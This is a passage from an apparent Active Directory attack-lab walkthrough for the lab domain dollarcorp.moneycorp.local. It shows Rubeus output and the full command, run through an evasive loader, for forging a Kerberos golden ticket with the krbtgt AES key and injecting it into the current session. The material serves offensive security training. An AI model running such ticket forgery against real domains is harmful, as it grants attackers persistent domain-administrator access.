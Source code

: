 ```
[*] \\dcorp-dc.dollarcorp.moneycorp.local\SYSVOL successfully unmounted
[*] Attempting to mount: \\us.dollarcorp.moneycorp.local\SYSVOL
[*] \\us.dollarcorp.moneycorp.local\SYSVOL successfully mounted
[*] Attempting to unmount: \\us.dollarcorp.moneycorp.local\SYSVOL
[*] \\us.dollarcorp.moneycorp.local\SYSVOL successfully unmounted
[*] Retrieving netbios name information over LDAP from domain controller dcorp-dc.dollarcorp.moneycorp.local
[*] Searching path 'CN=Configuration,DC=moneycorp,DC=local' for '(&(netbiosname=*)(dnsroot=dollarcorp.moneycorp.local))'
[*] Retrieving group information over LDAP from domain controller dcorp-dc.dollarcorp.moneycorp.local
[*] Searching path 'DC=dollarcorp,DC=moneycorp,DC=local' for '(|(distinguishedname=CN=Group Policy Creator Owners,CN=Users,DC=us,DC=dollarcorp,DC=moneycorp,DC=local)(distinguishedname=CN=Domain Admins,CN=Users,DC=us,DC=dollarcorp,DC=moneycorp,DC=local)(distinguishedname=CN=Administrators,CN=Builtin,DC=us,DC=dollarcorp,DC=moneycorp,DC=local)(objectsid=S-1-5-21-1028785420-4100948154-1806204659-513))'
[*] Retrieving netbios name information over LDAP from domain controller dcorp-dc.dollarcorp.moneycorp.local
[*] Searching path 'CN=Configuration,DC=moneycorp,DC=local' for '(&(netbiosname=*)(dnsroot=dollarcorp.moneycorp.local))'
[*] Building PAC

[SNIP]

[*] Printing a command to recreate a ticket containing the information used within this ticket📌

C:\AD\Tools\Loader.exe Evasive-Golden /aes256:154CB6624B1D859F7080A6615ADC488F09F92843879B3D914CBCB5A8C3CDA848 /user:Administrator /id:500 /pgid:513 /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-719815819-3726368948-3917688648 /pwdlastset:"11/11/2022 6:34:22 AM" /minpassage:1 /logoncount:244 /netbios:dcorp /groups:544,512,520,513 /dc:DCORP-DC.dollarcorp.moneycorp.local /uac:NORMAL_ACCOUNT,DONT_EXPIRE_PASSWORD📌
```

Now, use the generated command to forge a golden ticket.

Remember to add `-path C:\AD\Tools\Rubeus.exe -args` after `Loader.exe` and `/ptt` at the end of the generated command to inject it in the current process.

`C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args evasive-golden /aes256:154CB6624B1D859F7080A6615ADC488F09F92843879B3D914CBCB5A8C3CDA848 /user:Administrator /id:500 /pgid:513 /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-719815819-3726368948-3917688648 /pwdlastset:"11/11/2022 6:34:22 AM" /minpassage:1 /logoncount:152 /netbios:dcorp /groups:544,512,520,513 /dc:DCORP-DC.dollarcorp.moneycorp.local /uac:NORMAL_ACCOUNT,DONT_EXPIRE_PASSWORD /ptt`:
```
[SNIP]

[*] Action: Build TGT📌

[*] Building PAC

[*] Domain         : DOLLARCORP.MONEYCORP.LOCAL (dcorp)
[*] SID            : S-1-5-21-719815819-3726368948-3917688648
[*] UserId         : 500
[*] Groups         : 544,512,520,513
[*] ServiceKey     : 154CB6624B1D859F7080A6615ADC488F09F92843879B3D914CBCB5A8C3CDA848
[*] ServiceKeyType : KERB_CHECKSUM_HMAC_SHA1_96_AES256
[*] KDCKey         : 154CB6624B1D859F7080A6615ADC488F09F92843879B3D914CBCB5A8C3CDA848
[*] KDCKeyType     : KERB_CHECKSUM_HMAC_SHA1_96_AES256
[*] Service        : krbtgt📌
[*] Target         : dollarcorp.moneycorp.local

[*] Generating EncTicketPart
[*] Signing PAC
[*] Encrypting EncTicketPart
```